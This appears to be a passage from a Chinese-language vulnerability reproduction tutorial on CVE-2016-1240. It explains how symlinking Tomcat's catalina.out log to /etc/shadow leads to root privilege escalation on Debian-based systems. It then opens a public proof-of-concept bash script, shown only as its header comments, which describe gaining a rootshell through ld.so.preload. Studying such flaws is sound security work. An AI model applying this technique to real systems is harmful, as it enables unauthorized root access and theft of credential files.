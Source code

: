 使用head命令可以输出文件前十行的内容，而`cat`命令则是预览文件的全部内容。

![image](../img/6dabf00f710118574f5d7d3e7f3b5fb8.png)

**原理:**当Tomcat服务重启时，系统默认重新加载`/var/log/tomcat6/catalina.out`脚本，由于此时tomcat的日志文件指向了`/etc/shadow文件`; 而该文件就是我们之前创建的链接文件，而链接文件属于Tomcat7这个`低权限用户`，因此，我们就可以查看其中内容了。

### 漏洞复现

本步将使用poc根据Tomcat7漏洞进行提权

#### poc

```
#!/bin/bash
#
# Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
#
# CVE-2016-1240
#
# Discovered and coded by:
#
# Dawid Golunski
# http://legalhackers.com
#
# This exploit targets Tomcat (versions 6, 7 and 8) packaging on 
# Debian-based distros including Debian, Ubuntu etc.
# It allows attackers with a tomcat shell (e.g. obtained remotely through a 
# vulnerable java webapp, or locally via weak permissions on webapps in the 
# Tomcat webroot directories etc.) to escalate their privileges to root.
#
# Usage:
# ./tomcat-rootprivesc-deb.sh path_to_catalina.out [-deferred]
#
# The exploit can used in two ways:
#
# -active (assumed by default) - which waits for a Tomcat restart in a loop and instantly
# gains/executes a rootshell via ld.so.preload as soon as Tomcat service is restarted. 
# It also gives attacker a chance to execute: kill [tomcat-pid] command to force/speed up
# a Tomcat restart (done manually by an admin, or potentially by some tomcat service watchdog etc.)
#
# -deferred (requires the -deferred switch on argv[2]) - this mode symlinks the logfile to 
```